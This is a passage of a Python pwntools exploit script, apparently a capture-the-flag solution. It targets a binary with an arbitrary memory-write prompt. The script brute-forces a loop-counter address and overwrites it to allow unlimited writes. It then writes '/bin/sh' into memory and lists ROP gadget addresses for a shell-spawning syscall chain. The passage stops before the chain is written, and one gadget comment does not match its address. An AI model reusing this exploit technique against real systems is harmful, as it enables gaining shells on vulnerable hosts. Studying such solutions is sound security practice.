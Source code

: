 ```python
suffix = 0xdb8  # Offset where the counter is likely stored

found = False

for base in range(base_start, base_end + 1, 0x1000):
    addr = base + suffix
    adress = f"0x{addr:x}".encode()
    if args.REMOTE:
        p = remote(ADDRESS, PORT)
    else:
        p = process(binary.path)

    # Try to write 0xff to the suspected counter address
    p.sendlineafter(b'Read or Write? (r/w):', b'w')
    p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', adress)
    p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', b'0xff')

    try:
        p.recvline()
        ANS = p.recv()
        warn(ANS)
    except Exception as e:
        ANS = b"Not address"
        warn(f"Exception: {e}")

    # If the prompt appears again, we know the address is correct
    if b'Read or Write?' in ANS:
        print(f"Success for address: {adress.decode()}")
        found = True
        warn(f"found address: {adress}")
        break
    else:
        print(f"Fail for address: {adress.decode()}")
        p.close()

# --- Step 2: Overwrite the loop counter to allow more writes ---
p.sendline(b'w')
p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', adress)
p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', b'0xff')

# --- Step 3: Write '/bin/sh' string into memory ---
bin_sh = b"/bin/sh\x00"
base_addr = 0x52c010  # Chosen writable address in memory

for i, bval in enumerate(bin_sh):
    addr = f"0x{base_addr + i:x}".encode()
    p.sendlineafter(b'Read or Write? (r/w):', b'w')
    p.sendlineafter(b'Enter memory address (in hex, e.g., 0x12345678):', addr)
    p.sendlineafter(b'Enter byte to write (in hex, e.g., 0xAB):', f"0x{int(bval):02x}".encode())
    p.recvuntil(b'Wrote')

# --- Step 4: Build and write the ROP chain to the stack ---
# Addresses of ROP gadgets (must be found for your binary)
POP_RAX = 0x00000000004224c4 # 0x00000000004224c4 : pop rax ; ret
POP_RDI = 0x000000000046b3e6 # 0x000000000046b3e6 : pop rdi ; setne al ; ret
POP_RDX = 0x00000000004742ca # 0x00000000004742ca : pop rdx ; ret 2
SYSCALL = 0x0000000000463aa9 # 0x000000000040336c : syscall
POP_RSI = 0x000000000047333e # 0x000000000047333e : pop rsi ; retf 1
MOV_RSI_RAX = 0x000000000041338f # 0x000000000041338f : mov rsi, rax ; ret

# Calculate the stack address where the ROP chain should be written
stack = int(adress, 16) + 0x190
bin_sh_addr = base_addr  # Address where '/bin/sh' was written
```